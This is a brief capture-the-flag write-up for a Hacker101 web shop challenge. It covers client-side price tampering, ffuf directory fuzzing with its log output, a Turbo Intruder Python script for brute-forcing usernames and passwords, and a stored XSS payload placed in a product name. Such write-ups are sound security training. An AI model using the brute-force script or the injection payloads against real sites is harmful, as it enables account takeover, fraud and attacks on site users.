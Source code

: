 flags:

1. edit html to enable input on chart page. set prices to 0 and will find a flag
2. Use commons word list and web fuzzed tool - fuzz to find the list of available http paths = 
word lists => https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt


logs
```
heisenberg@heisenberg-inspiron5559:~/Downloads$ ffuf -u https://dadc20630b10d7047573968258c36334.ctf.hacker101.com/FUZZ -w common.txt -t 250 -c -v


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://dadc20630b10d7047573968258c36334.ctf.hacker101.com/FUZZ
 :: Wordlist         : FUZZ: common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 250
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

[Status: 200, Size: 410, Words: 15, Lines: 22]                                                                             
| URL | https://dadc20630b10d7047573968258c36334.ctf.hacker101.com/cart
    * FUZZ: cart

[Status: 200, Size: 329, Words: 16, Lines: 15]                                                                             
| URL | https://dadc20630b10d7047573968258c36334.ctf.hacker101.com/login
    * FUZZ: login

[Status: 301, Size: 169, Words: 5, Lines: 8]                                                                               
| URL | https://dadc20630b10d7047573968258c36334.ctf.hacker101.com/static
| --> | http://dadc20630b10d7047573968258c36334.ctf.hacker101.com/static/
    * FUZZ: static

:: Progress: [4723/4723] :: Job [1/1] :: 248 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
heisenberg@heisenberg-inspiron5559:~/Downloads$ 

```

## Use Burp suite extension turbo introduer to submit multiple http request to brute force user name and password
sample code
```python
# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    #for i in range(3, 8):
    #    engine.queue(target.req, randstr(i), learn=1)
    #    engine.queue(target.req, target.baseInput, learn=2)

    for word in open('/home/heisenberg/Downloads/10k-most-common.txt'):
        engine.queue(target.req, word.rstrip())


def handleResponse(req, interesting):
    if 'Invalid password' not in req.response:
        table.add(req)

```

3. JS injection attack by Edit the product. 
use `<script>alert("name")</script>` as the product name / description. save and then checkout the product to reveal the flag.

`
